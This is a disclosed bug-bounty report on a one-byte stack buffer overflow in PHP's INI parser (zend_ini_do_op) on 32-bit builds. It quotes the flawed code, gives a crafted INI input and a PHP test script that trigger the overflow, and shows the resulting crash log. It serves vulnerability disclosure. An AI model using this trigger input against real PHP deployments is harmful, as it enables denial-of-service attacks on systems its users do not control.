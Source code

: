 # PHP INI Parsing Stack Buffer Overflow Vulnerability

## Report Details
- **Report ID**: 248601
- **URL**: https://hackerone.com/reports/248601
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-07-12T09:21:09.097Z
- **Disclosed**: 2019-10-14T04:35:45.029Z

## Reporter
- **Username**: xixabangm4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
### Description:

A stack buffer overflow exists in the latest stable release of PHP-7.1.5 and PHP-5.6.30 in PHP INI parsing API, which may accept network / local filesystem input. On malformed inputs, a stack buffer overflow in zend_ini_do_op() could write 1-byte off a fixed size stack buffer. On installations with the stack smashing mitigation, this would cause an immediate DoS; upto optimization levels, build options and stack buffer overflow mitigations, this vulnerability may allow corrupting other local variables or the frame pointer, potentially allows remotely executing code.

### Impact:

Affects 32-bit builds of PHP 5 before 5.6.31 ([ChangeLog](http://php.net/ChangeLog-5.php)) and PHP 7 before 7.1.7 ([ChangeLog](http://php.net/ChangeLog-7.php)).
Resolved PHP [bug report](https://bugs.php.net/bug.php?id=74603), will update the pending CVE.

### Exploitability:

If the specific build affected has built-in stack smashing mitigation, an immediate DoS can be expected. If no such mitigation in place, it is possible to overwrite one byte of the adjacent variable on stack, or the stack frame pointer, depending on compiler optimizations. The issue can be triggered via a crafted .ini file (not limited to php.ini - which is usually protected), an INI string that gets passed into parse_ini_string(), or the command-line option for INI string (not really a valid attack vector except for demonstration).

In php-7.1.5/Zend/zend_long.h:
```
110 #if SIZEOF_ZEND_LONG == 4
111 # define MAX_LENGTH_OF_LONG 11
112 # define LONG_MIN_DIGITS "2147483648"
113 #elif SIZEOF_ZEND_LONG == 8
114 # define MAX_LENGTH_OF_LONG 20
115 # define LONG_MIN_DIGITS "9223372036854775808"
116 #else
117 # error "Unknown SIZEOF_ZEND_LONG"
118 #endif
```
In php-7.1.5/Zend/zend_ini_parser.c:
```
 123 /* {{{ zend_ini_do_op()
 124 */
 125 static void zend_ini_do_op(char type, zval *result, zval *op1, zval *op2)
 126 {
 127         int i_result;
 128         int i_op1, i_op2;
 129         int str_len;
 130         char str_result[MAX_LENGTH_OF_LONG];
 131 
 132         i_op1 = atoi(Z_STRVAL_P(op1));
 133         zend_string_free(Z_STR_P(op1));
 134         if (op2) {
 135                 i_op2 = atoi(Z_STRVAL_P(op2));
 136                 zend_string_free(Z_STR_P(op2));
 137         } else {
 138                 i_op2 = 0;
 139         }
 140 
 141         switch (type) {
 142                 case '|':
 143                         i_result = i_op1 | i_op2;
 144                         break;
 145                 case '&':
 146                         i_result = i_op1 & i_op2;
 147                         break;
 148                 case '^':
 149                         i_result = i_op1 ^ i_op2;
 150                         break;
 151                 case '~':
 152                         i_result = ~i_op1;
 153                         break;
 154                 case '!':
 155                         i_result = !i_op1;
 156                         break;
 157                 default:
 158                         i_result = 0;
 159                         break;
 160         }
 161 
 162         str_len = zend_sprintf(str_result, "%d", i_result);
 163         ZVAL_NEW_STR(result, zend_string_init(str_result, str_len, ZEND_SYSTEM_INI));
 164 }
 165 /* }}} */
```
The minimums, "-2147483648" and "-9223372036854775808" are of length 11 and 20 respectively, 
the proper definition of str_result[] array would be: str_result[MAX_LENGTH_OF_LONG + 1]. A
crafted ini entry would cause an overflow.

Test script:
```
$ cat input.ini
0=0&~2000000000

$ cat input.php
<?php 

$argc = $_SERVER['argc'];
$argv = $_SERVER['argv'];

$file_loc = dirname(__FILE__)."/".$argv[1];

var_dump(parse_ini_file($file_loc, true, INI_SCANNER_NORMAL));

?>
```
To reproduce:
```
$ bin/php input.php input.ini

*** buffer overflow detected ***: bin/php terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x68e4e)[0xb7527e4e]
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x6b)[0xb75ba85b]
/lib/i386-linux-gnu/libc.so.6(+0xfa6ea)[0xb75b96ea]
/lib/i386-linux-gnu/libc.so.6(+0xf9e48)[0xb75b8e48]
/lib/i386-linux-gnu/libc.so.6(_IO_default_xsputn+0x8e)[0xb752fc0e]
/lib/i386-linux-gnu/libc.so.6(_IO_vfprintf+0x89b)[0xb7502f3b]
/lib/i386-linux-gnu/libc.so.6(__vsprintf_chk+0xb1)[0xb75b8f01]
/lib/i386-linux-gnu/libc.so.6(__sprintf_chk+0x2f)[0xb75b8e2f]
bin/php[0x82e7aa0]
bin/php[0x82e87d3]
bin/php(zend_parse_ini_file+0x47)[0x82e8b07]
bin/php[0x8255788]
bin/php[0x83631f6]
bin/php(execute_ex+0x22)[0x8353c52]
bin/php(zend_execute+0x13b)[0x83a341b]
bin/php(zend_execute_scripts+0x30)[0x8313010]
bin/php(php_execute_script+0x286)[0x82b3f26]
bin/php[0x83a57de]
bin/php[0x80683b9]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xb74d8a83]
bin/php[0x8068444]
======= Memory map: ========
08048000-0888d000 r-xp 00000000 08:01 704181     /home/weilei/php7_gdb/bin/php
0888d000-0888e000 r--p 00844000 08:01 704181     /home/weilei/php7_gdb/bin/php
0888e000-08899000 rw-p 00845000 08:01 704181     /home/weilei/php7_gdb/bin/php
08899000-088b2000 rw-p 00000000 00:00 0 
09ae7000-09b9a000 rw-p 00000000 00:00 0          [heap]
b7000000-b7200000 r--p 00000000 08:01 271314     /usr/lib/locale/locale-archive
b7200000-b7400000 rw-p 00000000 00:00 0 
b7464000-b7480000 r-xp 00000000 08:01 787579     /lib/i386-linux-gnu/libgcc_s.so.1
b7480000-b7481000 rw-p 0001b000 08:01 787579     /lib/i386-linux-gnu/libgcc_s.so.1
b7496000-b74bf000 rw-p 00000000 00:00 0 
b74bf000-b7667000 r-xp 00000000 08:01 787552     /lib/i386-linux-gnu/libc-2.19.so
b7667000-b7669000 r--p 001a8000 08:01 787552     /lib/i386-linux-gnu/libc-2.19.so
b7669000-b766a000 rw-p 001aa000 08:01 787552     /lib/i386-linux-gnu/libc-2.19.so
b766a000-b766d000 rw-p 00000000 00:00 0 
b766d000-b7670000 r-xp 00000000 08:01 787569     /lib/i386-linux-gnu/libdl-2.19.so
b7670000-b7671000 r--p 00002000 08:01 787569     /lib/i386-linux-gnu/libdl-2.19.so
b7671000-b7672000 rw-p 00003000 08:01 787569     /lib/i386-linux-gnu/libdl-2.19.so
b7672000-b7673000 rw-p 00000000 00:00 0 
b7673000-b76b7000 r-xp 00000000 08:01 787602     /lib/i386-linux-gnu/libm-2.19.so
b76b7000-b76b8000 r--p 00043000 08:01 787602     /lib/i386-linux-gnu/libm-2.19.so
b76b8000-b76b9000 rw-p 00044000 08:01 787602     /lib/i386-linux-gnu/libm-2.19.so
b76b9000-b76cc000 r-xp 00000000 08:01 787678     /lib/i386-linux-gnu/libresolv-2.19.so
b76cc000-b76cd000 ---p 00013000 08:01 787678     /lib/i386-linux-gnu/libresolv-2.19.so
b76cd000-b76ce000 r--p 00013000 08:01 787678     /lib/i386-linux-gnu/libresolv-2.19.so
b76ce000-b76cf000 rw-p 00014000 08:01 787678     /lib/i386-linux-gnu/libresolv-2.19.so
b76cf000-b76e4000 rw-p 00000000 00:00 0 
b76e4000-b76e5000 r--s 00000000 08:01 554280     /home/weilei/php7_gdb/input.ini
b76e5000-b76e6000 r--p 00855000 08:01 271314     /usr/lib/locale/locale-archive
b76e6000-b76e8000 rw-p 00000000 00:00 0 
b76e8000-b76ea000 r--p 00000000 00:00 0          [vvar]
b76ea000-b76ec000 r-xp 00000000 00:00 0          [vdso]
b76ec000-b770c000 r-xp 00000000 08:01 787528     /lib/i386-linux-gnu/ld-2.19.so
b770c000-b770d000 r--p 0001f000 08:01 787528     /lib/i386-linux-gnu/ld-2.19.so
b770d000-b770e000 rw-p 00020000 08:01 787528     /lib/i386-linux-gnu/ld-2.19.so
bff25000-bff47000 rw-p 00000000 00:00 0          [stack]
Aborted
```


## Attachments
No attachments
